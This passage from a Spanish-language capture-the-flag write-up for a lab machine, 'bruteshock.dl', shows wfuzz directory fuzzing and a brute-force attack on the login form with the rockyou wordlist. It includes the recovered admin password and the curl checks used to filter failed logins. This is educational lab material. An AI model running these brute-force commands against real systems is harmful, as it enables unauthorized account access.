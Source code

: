 
## Fuzzing

Como no vemos algún recurso del que podamos abusar directamente, haremos `fuzzing` para descubrir directorios o archivos interesantes, lo haremos con la herramienta `wfuzz`

~~~ bash
wfuzz -c --hc=404 -b 'PHPSESSID=p94n4hgjjvq1ti9f7relhhdh06' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://bruteshock.dl/FUZZ
~~~

- `-c`: Formato colorizado
- `--hc=404`: Ocultamos las respuestas con el código de estado `404`
- `-H`: Definir una cabecera `HTTP`, en este caso es necesario enviar el valor de la `cookie` de sesión 
- `-w`: Diccionario de palabras a usar
- `-t 200`: Definimos 200 subprocesos para agilizar el proceso de `fuzzing`

Pero no obtendremos resultados interesantes, en este punto podemos intentar hacer un ataque de fuerza bruta para intentar descubrir alguna contraseña en el `login`



# Intrusión / Explotación
---
## Login Page Brute Forcing

Primeramente podemos intentar hallar la contraseña de un usuario `admin` (nombre común en sistemas) a través de un ataque de fuerza bruta al panel de autenticación usando `wfuzz`, si no tenemos éxito podemos intentar adivinar un nombre de usuario válido, aunq

~~~ bash
wfuzz -c --hl 69 -b "PHPSESSID=q2srkbctkotmpqecc9j7r3mpqa" -d "username=admin&password=FUZZ" -w /usr/share/wordlists/rockyou.txt -t 200 http://bruteshock.dl
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://bruteshock.dl/
Total requests: 14344392
=====================================================================
ID           Response   Lines    Word       Chars       Payload    
=====================================================================
000013635:   200        0 L      5 W        119 Ch      "christelle" 
~~~

- `--hl 69`: Ocultamos las respuestas con `69` líneas
- `-H`: Especificamos una cabecera HTTP
- `-d`: Definimos el contenido de los datos que enviaremos

En este caso, cada respuesta fallida posee un total de `69` líneas y un código de estado exitoso (`200`), es por eso que en vez de filtrar por código de estado, filtramos por la cantidad de líneas

~~~ bash
curl -sX POST http://bruteshock.dl -H 'Cookie: PHPSESSID=q2srkbctkotmpqecc9j7r3mpqa' -d 'username=test&password=test' | wc -l

69
~~~
